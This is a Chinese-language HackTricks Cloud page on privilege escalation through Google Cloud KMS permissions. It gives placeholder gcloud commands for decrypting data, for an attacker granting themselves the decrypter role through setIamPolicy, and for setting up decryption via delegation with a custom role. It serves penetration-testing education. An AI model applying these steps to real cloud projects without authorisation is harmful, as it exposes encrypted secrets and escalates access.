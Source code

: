 # GCP - KMS Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## KMS

关于 KMS 的信息：

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

请注意，在 KMS 中，**权限**不仅从组织、文件夹和项目**继承**，还从 **密钥环** 继承。

### `cloudkms.cryptoKeyVersions.useToDecrypt`

您可以使用此权限来 **使用您拥有此权限的密钥解密信息**。
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

拥有此权限的攻击者可以**授予自己权限**以使用密钥解密信息。
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

这是关于此委托如何工作的概念性分解：

1. **服务账户 A** 直接访问 KMS 中使用特定密钥进行解密。
2. **服务账户 B** 被授予 `useToDecryptViaDelegation` 权限。这使其能够代表服务账户 A 请求 KMS 解密数据。

此 **权限的使用在 KMS 服务检查权限时是隐式的**，当发出解密请求时。

当您使用 Google Cloud KMS API（在 Python 或其他语言中）发出标准解密请求时，服务 **检查请求的服务账户是否具有必要的权限**。如果请求是由具有 **`useToDecryptViaDelegation`** 权限的服务账户发出的，KMS 会验证该 **账户是否被允许代表拥有密钥的实体请求解密**。

#### 设置委托

1. **定义自定义角色**：创建一个 YAML 文件（例如，`custom_role.yaml`），定义自定义角色。该文件应包括 `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` 权限。以下是该文件可能的示例：
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **使用 gcloud CLI 创建自定义角色**：使用以下命令在您的 Google Cloud 项目中创建自定义角色：

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

将 `[YOUR_PROJECT_ID]` 替换为您的 Google Cloud 项目 ID。

3. **将自定义角色授予服务账户**：将您的自定义角色分配给将使用此权限的服务账户。使用以下命令：
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
将 `[YOUR_PROJECT_ID]` 和 `[SERVICE_ACCOUNT_EMAIL]` 分别替换为您的项目 ID 和服务帐户的电子邮件。

{% hint style="success" %}
学习与实践 AWS Hacking：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP Hacking：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
